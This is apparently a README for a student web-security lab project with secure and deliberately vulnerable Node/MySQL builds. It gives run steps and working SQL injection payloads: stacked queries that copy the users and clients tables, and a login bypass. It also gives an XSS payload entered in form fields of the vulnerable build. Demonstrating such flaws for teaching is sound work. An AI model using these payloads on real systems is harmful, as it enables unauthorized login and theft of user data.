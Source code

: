 How to run our project:
This project is splitted to 2 versions: secure and vulnerable.
In order to run the secure version -
open terminal -> cd cyber-server-secure -> npm start
open terminal -> cd cyber-client-secure -> set port=3001 && npm start

In order to run the vulnerable version -
open terminal -> cd cyber-server-vulnerable -> npm start
open terminal -> cd cyber-client-vulnerable -> npm start

(make sure you run mysql)

SQL injection:
register:
in the first name field:
test', 'last', 'email@test.com', 'Secpass123','pkg'); CREATE TABLE users_hacked AS SELECT * FROM users; -- 
(the rest doesnt matter)

The injection will let the hacker to create users_hacked table in the database with all the users info from the original table

login:
email- ' OR '1'='1' -- (IMPORTANT: HAVE A SPACE IN THE LAST CHAR) 
password- anything

The injection will let the hacker to log in without valid credantials


add client-
in the first name field:
x', 'last', 'email', 'phone', 'addr','pkg'); CREATE TABLE clients_hacked AS SELECT * FROM clients; -- 
(the rest doesnt matter)

The injection will let the hacker to create clients_hacked table in the database with all the clients info from the original table


XSS attack - 
in the first name field:
<img src=x onerror="alert(`XSS ATTACK!`)">
(the rest doesnt matter)
will show an alert dialog with content - XSS ATTACK!
